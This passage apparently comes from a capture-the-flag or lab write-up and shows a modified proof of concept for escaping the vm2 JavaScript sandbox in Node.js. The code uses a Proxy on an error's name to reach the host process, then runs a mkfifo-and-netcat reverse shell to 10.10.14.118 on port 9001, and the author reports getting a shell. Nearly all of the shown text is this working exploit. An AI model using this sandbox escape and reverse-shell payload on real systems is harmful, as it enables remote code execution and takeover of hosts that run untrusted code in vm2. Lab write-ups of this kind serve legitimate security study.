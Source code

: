 Now I changed the PoC a little bit to get a reverse shell.

```javascript
const { VM } = require("vm2");
const vm = new VM();

const code = `
  const err = new Error();
  err.name = {
    toString: new Proxy(() => "", {
      apply(target, thiz, args) {
        const process = args.constructor.constructor("return process")();
        throw process.mainModule.require("child_process").execSync("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc 10.10.14.118 9001 >/tmp/f").toString();
      },
    }),
  };
  try {
    err.stack;
  } catch (stdout) {
    stdout;
  }
`;

console.log(vm.run(code));
```

The code worked and I got a reverse shell.

![](images/Pasted%20image%2020240328233635.png)

